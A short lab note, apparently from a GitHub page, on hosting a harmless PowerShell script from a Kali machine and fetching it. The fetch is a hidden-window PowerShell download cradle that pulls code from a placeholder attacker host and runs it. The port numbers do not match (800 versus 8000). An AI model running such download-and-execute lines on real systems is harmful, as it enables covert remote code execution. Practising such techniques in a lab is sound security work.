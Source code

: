 Host a fake script on Kali 
then follow below steps
<!--run below commans in kali terminal-->
echo 'Write-Output "Simulated payload executed"' > script.ps1
python3 -m http.server 800

<!--run below commands in powershell as admin>
powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://<your-kali-ip>:8000/script.ps1')
